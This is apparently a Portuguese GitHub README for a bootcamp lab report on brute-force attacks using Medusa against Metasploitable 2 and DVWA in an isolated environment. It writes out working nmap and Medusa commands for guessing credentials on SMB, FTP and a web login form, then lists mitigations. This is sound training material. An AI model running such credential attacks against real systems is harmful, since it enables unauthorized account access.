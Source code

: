 # 🔐 Projeto Santander Cibersegurança 2025 - DIO

## 📋 Descrição
Relatório prático sobre testes de ataques de força bruta utilizando a ferramenta **Medusa** em ambiente controlado com **Kali Linux** e **Metasploitable 2**.

## 🎯 Objetivos
- Executar ataques de força bruta em serviços FTP, SMB e aplicação web (DVWA)
- Documentar procedimentos e resultados
- Propor medidas de mitigação contra ataques de força bruta

## 🛠️ Tecnologias Utilizadas
- **Kali Linux** - Máquina atacante
- **Metasploitable 2** - Máquina alvo
- **Medusa** - Ferramenta de brute force
- **DVWA** - Aplicação web vulnerável
- **Samba** & **VSFTPD** - Serviços de rede

## ⚡ Comandos Principais

```bash
# Scan de portas
nmap -sV -p 21,80,139,445 192.168.56.101

# Brute force SMB
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M smbnt

# Brute force FTP
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp

# Brute force HTTP (DVWA)
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http -m PAGE:'/dvwa/login.php' -m FORM:'username=^USER&password=^PASS&login=Login' -m FAIL:'Login failed'

📊 Resultados
Credenciais fracas identificadas com sucesso

Serviços vulneráveis expostos

Demonstração da eficácia de ataques de força bruta

🛡️ Medidas de Mitigação
Implementar políticas de senha forte

Configurar bloqueio de conta após tentativas falhas

Utilizar autenticação multifator (MFA)

Monitorar logs de acesso

